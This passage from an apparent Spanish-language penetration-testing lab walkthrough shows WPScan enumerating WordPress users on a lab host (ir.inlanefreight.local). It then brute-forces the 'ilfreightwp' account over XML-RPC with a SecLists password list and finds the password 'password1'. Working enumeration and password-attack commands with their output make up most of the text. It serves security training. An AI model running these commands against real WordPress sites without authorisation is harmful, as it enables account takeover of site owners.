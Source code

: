 ```r

[+] james
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] john
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Jun 20 23:14:33 2022
[+] Requests Done: 28
[+] Cached Requests: 37
[+] Data Sent: 8.495 KB
[+] Data Received: 269.719 KB
[+] Memory used: 176.859 MB
[+] Elapsed time: 00:00:0
```

Encontramos varios usuarios:

- ilfreightwp
- tom
- james
- john

Vamos a intentar forzar una de las contraseñas de la cuenta usando [esta](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top100.txt) lista de palabras del repo `SecLists` en GitHub. Usando `WPScan` nuevamente, obtenemos un éxito para la cuenta `ilfreightwp`.



```r
wpscan --url http://ir.inlanefreight.local -P passwords.txt -U ilfreightwp

<SNIP>

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - ilfreightwp / password1                                                                              
Trying ilfreightwp / 123123 Time: 00:00:00 <===                                > (10 / 109)  9.17%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: ilfreightwp, Password: password1

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Jun 20 23:31:34 2022
[+] Requests Done: 186
[+] Cached Requests: 7
[+] Data Sent: 54.2 KB
[+] Data Received: 253.754 KB
[+] Memory used: 241.836 MB
[+] Elapsed time: 00:00:16
```
